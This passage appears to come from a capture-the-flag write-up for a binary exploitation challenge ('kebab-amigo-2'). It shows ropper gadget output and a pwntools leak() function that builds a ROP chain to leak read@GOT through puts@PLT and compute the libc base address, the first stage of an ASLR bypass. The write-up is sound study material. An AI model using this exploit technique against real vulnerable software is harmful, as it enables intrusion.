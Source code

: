 ```python
> ropper -f chall
[...]
0x0000000000400c93: pop rdi; ret; 
[...]
0x000000000040060e: ret; 
```

To leak ``read@GOT`` we will use the following payload: `<PADDING> + POP_RDI + <read@got address> + puts@PLT + banhos_turcos` (we jump again to ``banhos_turcos`` for the second phase of the exploitation).

> You can check [this blog](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got) for more information about PLT and GOT
> 

```python
def leak():
		# Crafting payload
    buf = b'A' * PADDING
    buf += flat(POP_RDI) + flat(exe.got.read)
    buf += flat(exe.plt.puts)
    buf += flat(exe.sym.banhos_turcos)
    io.send(buf)
    
    # Receive addresses
    io.recvlines(3) # Blank line 
    
    # Parse the leak and use it to get libc base address.
    read_leak = u64(io.recvline().strip().ljust(8, b'\x00'))
    libc.address = read_leak - libc.sym.read
    
    print(f"[*] Leaked read@GOT address! --> 0x{read_leak:02x}")
    print(f"[*] Leaked base@libc address! --> 0x{libc.address:02x}\n")

```

After leaking the address of ``read`` at libc. We can do `read_leak - libc.sym.read` (this contains the offset of `read` inside the library) to get the libc base address. And after checking inside a website like [libc.rip](http://libc.rip) or [libc.blukat.me](http://libc.blukat.me) we can retrieve the libc version. And download it.

![Untitled](images/kebab-amigo-2/Untitled%201.png)
